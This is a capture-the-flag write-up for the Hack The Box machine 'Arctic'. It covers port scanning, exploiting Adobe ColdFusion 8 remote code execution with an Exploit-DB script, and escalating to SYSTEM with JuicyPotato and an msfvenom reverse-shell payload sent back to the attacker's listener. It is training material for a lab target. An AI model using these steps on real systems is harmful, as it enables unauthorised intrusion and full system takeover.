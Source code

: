 ```yaml
---
title: "HTB Arctic"
permalink: /writeups/arctic
location: default
---
```


**Machine Information**

	IP : 10.10.10.11
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.11 -- -sC -sV -Pn
```

This should reveal three open ports: `135`, `8500`, and `49154`

```
PORT      STATE SERVICE REASON  VERSION
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Investigate each of the ports and there should be a web server running on port 8500.

> http://10.10.10.11:8500/

The default page is an `Index of /` and allows directory listing so we can explore the available files. Exploring the directories will reveal an Adobe ColdFusion 8 Administrator panel at the following location:

> http://10.10.10.11:8500/CFIDE/administrator/

### Getting a Foothold

**Adobe ColdFusion Exploit**

Check for known exploits using `searchsploit`.

```
searchsploit coldfusion 8
```

This will reveal a python script that we can use for remote code execution.

```
Adobe ColdFusion 8 - Remote Command Execution (RCE) | cfm/webapps/50057.py
```

> https://www.exploit-db.com/exploits/50057

Open the exploit and update the `LHOST`, `LPORT`, and `RHOST` parameters to the appropriate values. Start a new `netcat` listener and run the exploit.

```
python3 50057.py
```

Success!

```
C:\ColdFusion8\runtime\bin>whoami
arctic\tolis
```

The user flag can be found in the following directory:

```
C:\Users\tolis\Desktop\user.txt
```

### Privilege Escalation

Checking our users privileges with `whoami /priv` reveals that we have the `SeImpersonatePrivilege` which may be exploitable.

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

For this we need to upload the `JuicyPotato.exe` exploit that can be downloaded from the following link:

> https://github.com/ohpe/juicy-potato/releases/tag/v0.1

We will also need a reverse shell payload that can be generated using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Once both of these are on the target machine start a new `netcat` listener and run the exploit.

```
.\JuicyPotato.exe -t t -p .\shelly.exe -l 5837
```

Success!

```
C:\Windows\system32>whoami
nt authority\system
```

The root flag can be found in the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
